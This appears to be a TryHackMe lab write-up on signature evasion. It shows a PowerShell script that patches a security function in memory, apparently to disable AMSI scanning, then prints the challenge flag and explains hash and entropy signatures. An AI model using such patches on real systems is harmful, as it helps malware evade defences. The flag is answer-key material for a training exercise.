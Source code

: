 ```powershell
$hMod   = [${ns}.$typeName]::GetModuleHandle($modName)
$addr   = [IntPtr]([${ns}.$typeName]::GetProcAddress($hMod, $funcName))

# === prepare our patch bytes ===
$bytes = 0xB8,0x57,0x00,0x07,0x80,0xC3

# === flip memory perms and write the patch ===
$dsize     = 0x5
$newProt   = 0x40
$oldProt   = 0
# call VirtualProtect indirectly
$vp = [${ns}.$typeName].GetMethod('VirtualProtect')
$vp.Invoke($null, @($addr, [UIntPtr]$dsize, $newProt, [ref]$oldProt)) | Out-Null

# finally marshal the bytes over
[System.Runtime.InteropServices.Marshal]::Copy([byte[]]$bytes, 0, $addr, $bytes.Count)
```

Let's save that file as `challenge-1.ps1` and submit it:

![[Pasted image 20250521154519.png]]

We got our flag:

```
THM{70_D373C7_0r_70_N07_D373C7}
```


# Static Property-Based Signatures

---

Various detection engines or analysts may consider different indicators rather than strings or static signatures to contribute to their hypothesis. Signatures can be attached to several file properties, including file hash, entropy, author, name, or other identifiable information to be used individually or in conjunction. These properties are often used in rule sets such as **YARA** or **Sigma**.

Some properties may be easily manipulated, while others can be more difficult, specifically when dealing with pre-compiled closed-source applications.

This task will discuss manipulating the **file hash** and **entropy** of both open-source and closed-source applications.

Note: several other properties such as PE headers or module properties can be used as indicators. Because these properties often require an agent or other measures to detect, we will not cover them in this room to keep the focus on signatures.

---

### File Hashes

A **file hash**, also known as a **checksum**, is used to tag/identify a unique file. They are commonly used to verify a file’s authenticity or its known purpose (malicious or not). File hashes are generally arbitrary to modify and are changed due to any modification to the file.
